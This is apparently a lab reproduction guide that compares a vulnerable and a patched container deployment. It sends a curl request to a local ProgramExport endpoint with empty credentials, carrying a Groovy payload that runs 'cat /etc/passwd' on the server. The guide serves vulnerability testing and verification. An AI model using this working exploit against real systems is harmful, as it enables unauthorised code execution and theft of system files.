 # Reproduction Guide

## Vulnerable Version
### Step 1 – Start the Lab Environment
Start all required containers with Docker Compose using `docker-compose.yml`:

```bash
docker-compose -f docker-compose.yml up -d
```

### Step 2 – Verify the Vulnerability
Issue the following HTTP request to the local instance:
```bash
curl "https://localhost:8443/webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y" -d "groovyProgram=throw+new+Exception('cat /etc/passwd'.execute().text);" -k -v
```
The response body should contains `root:x:`.

## Not Vulnerable Version
### Step 1 – Start the Lab Environment
Start all required containers with Docker Compose using `docker-compose-secure.yml`:

```bash
docker-compose -f docker-compose-secure.yml up -d
```

### Step 2 – Verify the Vulnerability
Issue the following HTTP request to the local instance:
```bash
curl "https://localhost:8443/webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y" -d "groovyProgram=throw+new+Exception('cat /etc/passwd'.execute().text);" -k -v
```
The response body should NOT contains `root:x:`.
